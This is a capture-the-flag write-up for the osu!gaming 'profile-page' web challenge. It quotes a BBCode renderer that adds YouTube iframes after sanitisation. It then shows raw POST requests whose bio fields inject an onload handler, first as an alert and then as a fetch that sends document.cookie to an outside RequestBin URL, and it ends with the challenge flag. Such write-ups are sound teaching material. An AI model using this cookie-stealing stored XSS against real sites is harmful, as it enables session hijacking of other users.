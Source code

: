 Web Challenge: profile-page


customize your osu! profile page!

https://profile-page.web.osugaming.lol/

https://adminbot.web.osugaming.lol/profile-page


------------------------------------------------------


1. First register account
2. Looking at source code we can go to /api/update if we include our accoutns csrf token and bio with a string.
3. Now we need to find the XSS.

4. Vulnerable code allowing iframe for youtube links
```css   
const window = new JSDOM('').window;
const purify = DOMPurify(window);
const renderBBCode = (data) => {
    data = data.replaceAll(/\[b\](.+?)\[\/b\]/g, '<strong>$1</strong>');
    data = data.replaceAll(/\[i\](.+?)\[\/i\]/g, '<i>$1</i>');
    data = data.replaceAll(/\[u\](.+?)\[\/u\]/g, '<u>$1</u>');
    data = data.replaceAll(/\[strike\](.+?)\[\/strike\]/g, '<strike>$1</strike>');
    data = data.replaceAll(/\[color=#([0-9a-f]{6})\](.+?)\[\/color\]/g, '<span style="color: #$1">$2</span>');
    data = data.replaceAll(/\[size=(\d+)\](.+?)\[\/size\]/g, '<span style="font-size: $1px">$2</span>');
    data = data.replaceAll(/\[url=(.+?)\](.+?)\[\/url\]/g, '<a href="$1">$2</a>');
    data = data.replaceAll(/\[img\](.+?)\[\/img\]/g, '<img src="$1" />');
    return data;
};
const renderBio = (data) => {
    const html = renderBBCode(data);
    const sanitized = purify.sanitize(html);
    // do this after sanitization because otherwise iframe will be removed
    return sanitized.replaceAll(
        /\[youtube\](.+?)\[\/youtube\]/g,
        '<iframe sandbox="allow-scripts" width="640px" height="480px" src="https://www.youtube.com/embed/$1" frameborder="0" allowfullscreen></iframe>'
    );
};
```
First HTTP Post request I used to find XSS

POST /api/update HTTP/1.1
Host: profile-page.web.osugaming.lol
Cookie: csrf=2a04810c7881e057d037ca499a490fe8bff478dce24ea028376470fb600d214e; connect.sid=s%3AtP70J1oyDiyJLQRLSKFO3WtGibgM8Yhv.baLOkGt4cn7e6ig3lqUrmdvd%2FzKyxSycPkuGFQUUZ6c
Content-Length: 86
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://profile-page.web.osugaming.lol
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://profile-page.web.osugaming.lol/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: close
csrf: 2a04810c7881e057d037ca499a490fe8bff478dce24ea028376470fb600d214e

bio= [youtube]https://www.youtube.com/embed/abcd" onload="alert('XSS')[/youtube]



5. After finding XSS I used RequestBin to catch http request



POST /api/update HTTP/1.1
Host: profile-page.web.osugaming.lol
Cookie: csrf=2a04810c7881e057d037ca499a490fe8bff478dce24ea028376470fb600d214e; connect.sid=s%3AtP70J1oyDiyJLQRLSKFO3WtGibgM8Yhv.baLOkGt4cn7e6ig3lqUrmdvd%2FzKyxSycPkuGFQUUZ6c
Content-Length: 136
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://profile-page.web.osugaming.lol
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://profile-page.web.osugaming.lol/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: close
csrf: 2a04810c7881e057d037ca499a490fe8bff478dce24ea028376470fb600d214e

bio=[youtube]https://www.youtube.com/embed/abcd" onload="fetch('https://eo43q419hz95h4j.m.pipedream.net?'%2Bdocument.cookie)[/youtube]



Flag: osu{but_all_i_w4nted_to_do_was_w4tch_y0utube...}
